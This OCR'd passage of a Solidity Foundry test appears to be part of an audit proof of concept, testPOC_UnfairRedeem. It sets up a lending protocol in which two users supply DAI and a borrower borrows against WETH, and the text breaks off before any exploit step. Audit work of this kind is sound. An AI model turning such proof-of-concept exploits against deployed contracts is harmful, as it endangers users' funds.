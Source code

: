 ```solidity
            crossChainRouter.setPeer(chainBEid, bytes32(uint256(uint160(mockPeer))));

            coreRouter.setCrossChainRouter(address(crossChainRouter));

            deal(address(crossChainRouter), 1 ether);
        }

        vm.stopPrank();

        {
            vm.label(address(btc), "BTC");
            vm.label(address(dai), "DAI");
            vm.label(address(weth), "WETH");
            vm.label(address(lTokenBTC), "lToken BTC");
            vm.label(address(lTokenDAI), "lToken DAI");
            vm.label(address(lTokenWETH), "lToken WETH");
            vm.label(address(endpoint), "Endpoint");
            vm.label(address(lendtroller), "Lendtroller");
            vm.label(address(lend), "Lend");
            vm.label(address(priceOracle), "PriceOracle");
            vm.label(address(lendStorage), "LendStorage");
            vm.label(address(coreRouter), "CoreRouter");
            vm.label(address(crossChainRouter), "CrossChainRouter");
        }
    }

    function testPOC_UnfairRedeem() public {
        address alice = makeAddr("Alice");
        deal(address(dai), alice, 1500e18);
        
        // Alice supplies 1500 Dai
        {
            vm.startPrank(alice);
            dai.safeApprove(address(coreRouter), 1500e18);
            coreRouter.supply(1500e18, address(dai));
            vm.stopPrank();
        }

        address bob = makeAddr("Bob");
        deal(address(dai), bob, 1500e18);
        
        // Bob supplies 1500 Dai
        {
            vm.startPrank(bob);
            dai.safeApprove(address(coreRouter), 1500e18);
            coreRouter.supply(1500e18, address(dai));
            vm.stopPrank();
        }

        {
            address borrower = makeAddr("Borrower");
            deal(address(weth), borrower, 1 ether);

            vm.startPrank(borrower);
            
            address[] memory lTokens = new address[](1);
            lTokens[0] = address(lTokenWETH);
            lendtroller.enterMarkets(lTokens);

            weth.approve(address(lTokenWETH), 1 ether);
            lTokenWETH.mint(1 ether);
            lTokenDAI.borrow(1000e18);

```